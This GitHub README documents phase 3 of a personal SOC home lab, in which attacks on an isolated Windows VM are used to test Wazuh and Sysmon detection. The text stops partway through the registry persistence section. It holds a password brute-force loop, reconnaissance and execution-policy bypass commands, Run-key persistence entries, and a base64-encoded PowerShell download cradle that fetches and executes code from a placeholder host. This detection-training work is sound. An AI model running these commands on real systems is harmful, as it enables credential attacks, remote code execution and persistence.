# SOC Home Lab – Phase 3: Attack Simulation & SOC Investigation

> 🎯 **Phase 3 Complete** — 5 attacks simulated · 5 incidents investigated · 11 MITRE ATT&CK techniques mapped · 2 detection gaps identified

*Windows Endpoint Attacks | SIEM Alert Detection | Incident Investigation | MITRE ATT&CK*

<p align="center">

[](https://microsoft.com)
[](https://wazuh.com/)
[](https://github.com/SwiftOnSecurity/sysmon-config)
[](https://attack.mitre.org/)
[](https://www.vmware.com/)
[](https://github.com/kripy17)
[](https://github.com/kripy17)
[](https://github.com/kripy17)
[](https://github.com/kripy17)

</p>

---

<div align="center">

| 🎯 Attacks Simulated | 🔔 Total Alerts | ✅ True Positives | ⚠️ False Positives | 🔍 Detection Gaps | 🛡️ MITRE Techniques |
|:---:|:---:|:---:|:---:|:---:|:---:|
| 5 | 68 | 4 | 4 | 2 | 11 |

</div>

---

## 📋 Table of Contents

<details open>
<summary>📸 <strong>🎯 Overview & Setup</strong></summary>

&nbsp;&nbsp;&nbsp;&nbsp;`01` [Project Overview](#1-project-overview)  
&nbsp;&nbsp;&nbsp;&nbsp;`02` [Phase Objectives](#2-phase-objectives)  
&nbsp;&nbsp;&nbsp;&nbsp;`03` [Attack Environment](#3-attack-environment)  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`3.1` [Lab Configuration](#31-lab-configuration)  
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`3.2` [Monitoring Setup](#32-monitoring-setup)  

</details>

<details open>
<summary>📸 <strong>⚔️ Attack Simulations</strong></summary>

&nbsp;&nbsp;&nbsp;&nbsp;`04` [Attack 1 — Brute Force Login](#4-attack-1--brute-force-login)  
&nbsp;&nbsp;&nbsp;&nbsp;`05` [Attack 2 — Suspicious PowerShell Execution](#5-attack-2--suspicious-powershell-execution)  
&nbsp;&nbsp;&nbsp;&nbsp;`06` [Attack 3 — Abnormal Process Execution](#6-attack-3--abnormal-process-execution)  
&nbsp;&nbsp;&nbsp;&nbsp;`07` [Attack 4 — Registry Persistence Mechanism](#7-attack-4--registry-persistence-mechanism)  
&nbsp;&nbsp;&nbsp;&nbsp;`08` [Attack 5 — Privilege Escalation](#8-attack-5--privilege-escalation)  

</details>

<details open>
<summary>📸 <strong>🔍 Analysis & Findings</strong></summary>

&nbsp;&nbsp;&nbsp;&nbsp;`09` [Vulnerability Assessment](#9-vulnerability-assessment)  
&nbsp;&nbsp;&nbsp;&nbsp;`10` [MITRE ATT&CK Coverage](#10-mitre-attck-coverage)  
&nbsp;&nbsp;&nbsp;&nbsp;`11` [False Positives & Detection Gaps](#11-false-positives--detection-gaps)  
&nbsp;&nbsp;&nbsp;&nbsp;`12` [Lessons Learned](#12-lessons-learned)  
&nbsp;&nbsp;&nbsp;&nbsp;`13` [Phase Summary](#13-phase-summary)  

</details>

---

## 1. Project Overview

This repository documents the third and final phase of my **Security Operations Center (SOC) home lab** — the attack simulation and incident investigation phase.

Phases 1 and 2 built the foundation: a fully operational Wazuh SIEM stack, a Kali Linux endpoint, and a Windows 10 endpoint with Sysmon telemetry. Phase 3 puts that infrastructure to work — simulating real attack techniques against the Windows endpoint and investigating each alert the way a SOC analyst would on the job.

The approach throughout this phase mirrors real SOC workflows:
- Establish a clean alert baseline before each attack
- Execute the attack technique
- Observe what Wazuh detects — and what it misses
- Investigate each alert, determine true vs false positives
- Document findings with MITRE ATT&CK mapping

Every result in this phase is genuine — including the detection gaps, the false positives, and the configuration mistakes. These are documented honestly because they reflect the real experience of building and operating a SOC environment.

> 📌 **Back to main project:** [SOC Home Lab](../README.md)  
> 📌 **Previous phase:** [Phase 2 — Windows Telemetry & Sysmon Integration](../phase-2-windows-sysmon)

---

## 2. Phase Objectives

| # | Objective | Status |
|---|---|---|
| 01 | Simulate 5 real attack techniques against the Windows endpoint | ✅ Complete |
| 02 | Observe and capture Wazuh alert generation for each attack | ✅ Complete |
| 03 | Investigate each alert — triage, classify, and document | ✅ Complete |
| 04 | Identify false positives and explain root cause | ✅ Complete |
| 05 | Map all detections to MITRE ATT&CK framework | ✅ Complete |
| 06 | Document detection gaps and recommend fixes | ✅ Complete |
| 07 | Produce a full incident report for each attack | ✅ Complete |
| 08 | Identify vulnerabilities on the endpoint via Wazuh scan | ✅ Complete |

---

## 3. Attack Environment

### 3.1 Lab Configuration

All attacks were performed within an isolated VMware NAT network. The Windows 10 endpoint was the sole attack target — the Wazuh SOC server remained untouched throughout.

| Component | Detail |
|---|---|
| **Attack Target** | Windows 10 VM — `desktop-bhlhrb8\krish patel` |
| **SIEM** | Wazuh — Manager · Indexer · Dashboard · Filebeat |
| **Endpoint Agent** | Wazuh Agent (Windows) |
| **Telemetry** | Sysmon with SwiftOnSecurity configuration |
| **Network** | VMnet8 · NAT · 192.168.1.0/24 · Isolated |
| **Host Machine** | Intel i3 · 8GB RAM · VMware Workstation |

---

### 3.2 Monitoring Setup

Before each attack the following was confirmed:

* Wazuh Dashboard open on `wazuh-alerts-*` index pattern
* Discover view filtered to the Windows agent
* Time filter set to **Last 15 minutes**
* Baseline alert count noted before execution
* Sysmon columns configured in Discover for clean table output — rule description, rule ID, rule level, and event ID.

This ensured every alert generated during the attack was immediately visible and attributable.

---

## 4. Attack 1 — Brute Force Login

### Objective

Simulate a brute force credential attack against the Windows endpoint to validate that Wazuh detects repeated authentication failures and escalates appropriately through its rule hierarchy.

**MITRE ATT&CK:** T1110.001 — Brute Force: Password Guessing

---

### Method

A PowerShell script was used to generate 20 consecutive failed login attempts against the local account using an incorrect password, with a 1 second delay between each attempt to simulate realistic attack pacing.

```powershell
$username = "krish patel"
$wrongPassword = ConvertTo-SecureString "WrongPassword123!" -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential($username, $wrongPassword)

for ($i = 1; $i -le 20; $i++) {
    try {
        Start-Process -FilePath "cmd.exe" -Credential $credential -ErrorAction Stop
    } catch {}
    Start-Sleep -Seconds 1
}
```

---

### Alerts Generated

**Baseline:** 22 alerts → **Post-attack:** 33 alerts → **Delta: 11 new alerts**

| Rule ID | Description | Level | Count |
|---|---|---|---|
| 60204 | Multiple Windows Logon Failures | 10 | 1 |
| 60115 | User account locked out (multiple login errors) | 9 | 1 |
| 60122 | Logon Failure - Unknown user or bad password | 5 | 9 |

**Key Event IDs:** Windows 4625 — Logon Failure · Windows 4740 — Account Lockout

---

### Key Finding

Wazuh demonstrated a **3-tier detection cascade** — individual failures escalated to pattern recognition and finally account lockout:

```
Individual failure (4625)  →  Rule 60122  →  Level 5
Pattern recognised         →  Rule 60204  →  Level 10  ← brute force confirmed
Account locked out (4740)  →  Rule 60115  →  Level 9   ← containment triggered
```

The account lockout serves as both a **detection signal and a containment action** — Windows automatically locked the account, preventing further attempts.

---

### Screenshots

<sub>📷 Click any screenshot below to expand</sub>

<details>
<summary>📸 <strong>Wazuh Discover — clean baseline before attack</strong></summary>


</details>

<details>
<summary>📸 <strong>PowerShell script execution — 20 failed login attempts</strong></summary>


</details>

<details>
<summary>📸 <strong>Wazuh Discover — alert spike from 22 to 33</strong></summary>


</details>

<details>
<summary>📸 <strong>Expanded alert detail — rule fields visible</strong></summary>


</details>

<details>
<summary>📸 <strong>Windows Event Viewer — Event ID 4625 entries</strong></summary>


</details>

---

### Verdict

✅ **True Positive** — Brute force attack fully detected across 3 escalating rule levels.

> 📄 Full incident report: [`incident_reports/README.md#inc-001`](incident_reports/README.md)

---

## 5. Attack 2 — Suspicious PowerShell Execution

### Objective

Simulate a range of suspicious PowerShell techniques commonly used by attackers — including base64 encoded commands, execution policy bypass, download cradle simulation, and process discovery — to validate Wazuh's detection coverage for PowerShell abuse.

**MITRE ATT&CK:** T1059.001 — Command and Scripting Interpreter: PowerShell · T1027 — Obfuscated Files: Base64

---

### Method

Four commands were executed targeting different PowerShell abuse techniques:

```powershell
# Command 1 — Base64 encoded command
powershell -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdABlAHMAdAAuAGUAeABhAG0AcABsAGUALgBjAG8AbQAnACkA

# Command 2 — Reconnaissance
powershell -Command "whoami; hostname; ipconfig; net user"

# Command 3 — Execution policy bypass
powershell -ExecutionPolicy Bypass -Command "Get-Process | Select-Object Name, Id"

# Command 4 — Download cradle simulation
powershell -Command "Invoke-Expression 'Write-Host Simulated payload execution'"
```

> **Note:** This attack initially produced no Sysmon alerts due to a misconfiguration in `ossec.conf`. After fixing the Sysmon pipeline, the attack was re-run successfully. See [Section 12 — Lessons Learned](#12-lessons-learned) for full details.

---

### Alerts Generated

**Baseline:** 9 alerts → **Post-attack:** 23 alerts → **Delta: 14 new alerts**

| Rule ID | Description | Level | Count |
|---|---|---|---|
| 92213 | Executable file dropped in folder commonly used by malware | 15 | 5 |
| 92057 | PowerShell.exe spawned a PowerShell process executing a base64 encoded command | 12 | 1 |
| 92217 | Executable dropped in Windows root folder | 6 | 1 |
| 92027 | PowerShell process spawned PowerShell instance | 4 | 3 |
| 91815 | PowerShell executing process discovery | 4 | 2 |
| 91837 | PowerShell executed `Invoke-Expression` — possible string execution as code | 4 | 1 |
| 92031 | Discovery activity executed | 3 | 1 |
| 92033 | Discovery activity spawned via PowerShell execution | 3 | 1 |
| 60642 | Software protection service scheduled successfully | 3 | 2 (background noise) |

**Key Event IDs:** Sysmon 1 — Process Creation · Sysmon 11 — File Create · PowerShell 4104

---

### Key Finding — Level 15 False Positive

The highest severity alert (Level 15, Rule 92213) fired 5 times — flagging a file dropped in `AppData\Local\Temp\`:

```
Process    →  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
File       →  C:\Users\Krish Patel\AppData\Local\Temp\__PSScriptPolicyTest_zfgmfsam.g1v.ps1
Event ID   →  Sysmon 11 — File Create
```

After investigation this was identified as a **False Positive** — when `-ExecutionPolicy Bypass` is used, Windows PowerShell creates a temporary policy test file in `AppData\Local\Temp\`. The filename prefix `__PSScriptPolicyTest_` is a known Windows pattern. The rule correctly identified a suspicious location but the underlying activity was benign.

This is a real-world example of why **alert investigation matters** — a Level 15 alert requires context before action.

---

### Screenshots

<sub>📷 Click any screenshot below to expand</sub>

<details>
<summary>📸 <strong>Wazuh Discover — baseline before attack</strong></summary>



</details>

<details>
<summary>📸 <strong>PowerShell commands 1 and 2 executed</strong></summary>



</details>

<details>
<summary>📸 <strong>PowerShell commands 3 and 4 executed</strong></summary>


</details>

<details>
<summary>📸 <strong>Wazuh Discover — full alert table</strong></summary>



</details>

<details>
<summary>📸 <strong>Level 15 critical alert — file drop in Temp folder</strong></summary>


</details>

<details>
<summary>📸 <strong>Expanded alert detail — rule fields and message visible</strong></summary>



</details>

<details>
<summary>📸 <strong>Background noise example — Windows Update DLL flagged as DLL hijack</strong></summary>



</details>

---

### Verdict

✅ **True Positive** — PowerShell abuse techniques detected across 8 rules including base64 encoding (Level 12) and process discovery.
⚠️ **False Positive identified** — Level 15 alert for `-ExecutionPolicy Bypass` policy test file. Investigated, explained, and documented.

> 📄 Full incident report: [`incident_reports/README.md#inc-002`](incident_reports/README.md)

---

## 6. Attack 3 — Abnormal Process Execution

### Objective

Simulate suspicious parent-child process chains — a common indicator of malicious activity where an attacker uses PowerShell to spawn `cmd.exe` and execute reconnaissance commands — to validate Wazuh's ability to detect abnormal process lineage.

**MITRE ATT&CK:** T1059.003 — Windows Command Shell · T1082 — System Information Discovery · T1087.001 — Account Discovery: Local Account

---

### Method

Four commands were executed to create suspicious process chains and recon activity:

```powershell
# Command 1 — PowerShell spawning cmd.exe for recon
Start-Process cmd.exe -ArgumentList "/c whoami && hostname && ipconfig"

# Command 2 — User and group enumeration via cmd
Start-Process cmd.exe -ArgumentList "/c net user && net localgroup administrators"

# Command 3 — Nested process chain
Start-Process powershell.exe -ArgumentList "-Command Start-Process cmd.exe -ArgumentList '/c systeminfo'"

# Command 4 — Process enumeration via wmic
Start-Process cmd.exe -ArgumentList "/c wmic process list brief"
```

---

### Alerts Generated

**Baseline:** 18 alerts → **Post-attack:** 51 alerts → **Delta: 33 new alerts**

| Rule ID | Description | Level | Count |
|---|---|---|---|
| 92213 | Executable file dropped in folder commonly used by malware | 15 | 1 (FP) |
| 92004 | PowerShell process spawned Windows command shell instance | 4 | 4 |
| 92027 | PowerShell process spawned PowerShell instance | 4 | 1 |
| 92032 | Suspicious Windows cmd shell execution | 3 | 6 |
| 92031 | Discovery activity executed | 3 | 2 |
| 92036 | `net.exe` binary started by a Windows cmd shell | 3 | 2 |

**Key Event ID:** Sysmon 1 — Process Creation

---

### Key Finding — Full Attack Chain Visible

This attack produced the **most comprehensive detection coverage** of all five simulations — 5 distinct rule categories firing across process creation, discovery activity, and user enumeration:

```
PowerShell launched          →  Rule 92027  →  Level 4
PowerShell spawned cmd.exe   →  Rule 92004  →  Level 4  ← parent-child chain
cmd.exe executed suspiciously →  Rule 92032  →  Level 3
Recon commands ran           →  Rule 92031  →  Level 3  ← discovery flagged
net.exe user enumeration     →  Rule 92036  →  Level 3  ← account recon flagged
```

Sysmon Event ID 1 entries confirmed the full parent-child chain — `parentImage: powershell.exe` → `Image: cmd.exe` — clearly showing attacker progression from initial execution through to reconnaissance.

---

### Screenshots

<sub>📷 Click any screenshot below to expand</sub>

<details>
<summary>📸 <strong>Wazuh Discover — baseline before attack</strong></summary>



</details>

<details>
<summary>📸 <strong>PowerShell commands executed — process chains launched</strong></summary>



</details>

<details>
<summary>📸 <strong>Wazuh Discover — 33 new alerts across 5 rule categories</strong></summary>



</details>

<details>
<summary>📸 <strong>Expanded alert — parent-child process chain visible in message field</strong></summary>



</details>

---

### Verdict

✅ **True Positive** — Full attack chain detected. Process spawning, discovery activity, and user enumeration all flagged across 5 distinct rules.

> 📄 Full incident report: [`incident_reports/README.md#inc-003`](incident_reports/README.md)

---

## 7. Attack 4 — Registry Persistence Mechanism

### Objective

Simulate an attacker establishing persistence by adding Registry Run Keys — ensuring a payload would execute automatically on every system logon — to validate Wazuh's ability to detect persistence mechanisms via Sysmon registry telemetry.

**MITRE ATT&CK:** T1547.001 — Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder

---

### Method

Two persistence entries were written to `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` using both `reg.exe` and PowerShell's `New-ItemProperty`:

```powershell
# Command 1 — Add run key via reg.exe
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v "WindowsUpdateService" /t REG_SZ /d "C:\Users\Public\payload.exe" /f

# Command 2 — Add run key via PowerShell
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "SecurityUpdate" -Value "C:\Windows\Temp\update.exe" -PropertyType String -Force

# Command 3 — Verify entries written
Get-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
```

Both entries were removed after the simulation using `Remove-ItemProperty`.

---

### Alerts Generated

**Baseline:** 9 alerts → **Post-attack:** 12 alerts → **Delta: 3 direct alerts**

| Rule ID | Description | Level | Count |
|---|---|---|---|
| 91844 | Possible addition of new item to Windows startup registry | 12 | 1 |
| 92041 | Value added to registry key has Base64-like pattern | 10 | 1 |
| 92302 | Registry entry to be executed on next logon modified using `reg.exe` | 6 | 1 |
| 92219 | Possible DLL search order hijack — `fvereseal.dll` | 6 | 1 (background noise) |

**Key Event ID:** Sysmon 13 — Registry Value Set

---

### Key Finding — 3-Tier Persistence Detection

Wazuh detected the persistence mechanism across three complementary rules — the action, the tool, and the pattern:

```
Startup registry modified    →  Rule 91844  →  Level 12  ← persistence flagged
reg.exe used as modifier     →  Rule 92302  →  Level 6   ← tool identified
Value pattern suspicious     →  Rule 92041  →  Level 10  ← value content flagged
```

Rule 92302 specifically identified `reg.exe` as the modification tool — valuable for **attribution and threat hunting**. In a real incident this would immediately prompt a search for what else `reg.exe` was used for across the environment.

---

### Screenshots

<sub>📷 Click any screenshot below to expand</sub>

<details>
<summary>📸 <strong>Wazuh Discover — baseline before attack</strong></summary>



</details>

<details>
<summary>📸 <strong>PowerShell commands — registry run keys written</strong></summary>



</details>

<details>
<summary>📸 <strong>Wazuh Discover — 3 direct persistence alerts</strong></summary>

